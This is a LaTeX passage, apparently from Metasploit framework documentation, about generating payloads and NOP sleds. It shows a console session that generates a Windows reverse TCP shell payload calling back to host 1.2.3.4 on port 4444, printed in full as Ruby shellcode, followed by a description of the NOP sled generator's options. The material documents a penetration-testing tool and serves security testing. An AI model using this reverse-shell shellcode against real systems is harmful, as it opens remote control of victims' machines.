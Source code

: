 \documentclass{report}
\begin{document}
\begin{verbatim}
msf payload(shell_reverse_tcp) > set LHOST 1.2.3.4
LHOST => 1.2.3.4
msf payload(shell_reverse_tcp) > generate -t ruby
# windows/shell_reverse_tcp - 287 bytes
# http://www.metasploit.com
# EXITFUNC=seh, LPORT=4444, LHOST=1.2.3.4
"\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24" +
"\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f" +
"\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84" +
"\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x28" +
"\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c" +
"\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61\xc3\x31\xdb\x64" +
"\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\x5e" +
"\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" +
"\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50" +
"\xff\xd6\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff" +
"\xd0\x68\xd9\x09\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43" +
"\x53\x43\x53\xff\xd0\x68\x01\x02\x03\x04\x66\x68\x11\x5c" +
"\x66\x53\x89\xe1\x95\x68\xec\xf9\xaa\x60\x57\xff\xd6\x6a" +
"\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68\x63\x6d\x6a\x50" +
"\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3\xaa\x95" +
"\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" +
"\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51" +
"\x51\x51\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05" +
"\xce\x53\xff\xd6\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6" +
"\x79\xff\x75\x04\xff\xd6\xff\x77\xfc\xff\xd0\x68\xf0\x8a" +
"\x04\x5f\x53\xff\xd6\xff\xd0"
msf payload(shell_reverse_tcp) >  
\end{verbatim}

	\section{Nop Modules}

\par
NOP modules are used to generate no-operation instructions that can be used
for padding out buffers.

		\subsection{Generating a NOP Sled}

\par
The NOP module console interface supports generating a NOP sled of an
arbitrary size and displaying it in a given format through the
\texttt{generate} command.

\begin{verbatim}
msf > use x86/opty2
msf nop(opty2) > generate -h
Usage: generate [options] length

Generates a NOP sled of a given length.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -h        Help banner.
    -s <opt>  The comma separated list of registers to save.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf nop(opty2) >     
\end{verbatim}
\end{document}
